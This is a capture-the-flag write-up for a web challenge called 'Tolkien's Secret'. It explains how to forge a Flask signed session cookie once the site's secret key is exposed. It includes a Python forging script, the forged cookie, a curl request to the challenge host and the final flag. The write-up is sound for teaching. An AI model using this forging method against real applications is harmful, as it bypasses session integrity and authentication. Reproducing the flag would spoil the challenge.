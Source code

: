 # Tolkien's Secret

> Points: 150

> Category: Web

## Description

One Flag to rule them all, One Flag to find them,

One Flag to bring them all, and in the darknes bind them.

Note: I want to make it abundantly clear that you will not need to use any tools that make automated requests (bruteforce, dirb, etc.) to solve this.

## Attachments

https://dismalwindingcircles.samwise74.repl.co/

## Solution

In order to get the flag, we need to set the cookie on the `/count` route equal to 356047916789627241981541. The value of the cookie increments by one each time you revisit the page, but obviously we're not going to reload the page 356047916789627241981541 times.

This is how a flask signed cookie is structured

![flaskCookieParts](https://miro.medium.com/max/1000/1*EBExwdWx4ma2CQBgsUfHwA.png)

Kinda looks similar to a jwt. Just like a jwt, we can change the payload (session data) since it's just a base64 encoded string.

The cryptographic hash is what makes the cookie secure. It's a SHA1 hash that's based off the session data, timestamp, and the secret key.

We already know what the secret key is because it's right at the top of the website. SECRETKEY = **KeepItSecret**.

Below is a python script that will forge a new session cookie.

```py
from flask.sessions import SecureCookieSessionInterface

payload = { 'count': 356047916789627241981541 }
secret = "KeepItSecret"

class FakeApp():
    def __init__(self, secret_key):
        self.secret_key = secret_key

def encode(payload, secret):
    app = FakeApp(secret)
    return SecureCookieSessionInterface().get_signing_serializer(app).dumps(payload)

print(encode(payload, secret))
```

Running the program outputs: `eyJjb3VudCI6MzU2MDQ3OTE2Nzg5NjI3MjQxOTgxNTQxfQ.YFvcOQ.SYZya8a592erbFrCj3qV7npM448`

Send the cookie to the `/count` route and it will give the flag.

```sh
$ curl -Lv -b session=eyJjb3VudCI6MzU2MDQ3OTE2Nzg5NjI3MjQxOTgxNTQxfQ.YFvcOQ.SYZya8a592erbFrCj3qV7npM448 https://dismalwindingcircles.samwise74.repl.co/count
```

### Flag

> ictf{Come_on_Mr_Frodo_I_cant_carry_it_for_you_but_I_can_carry_you!}
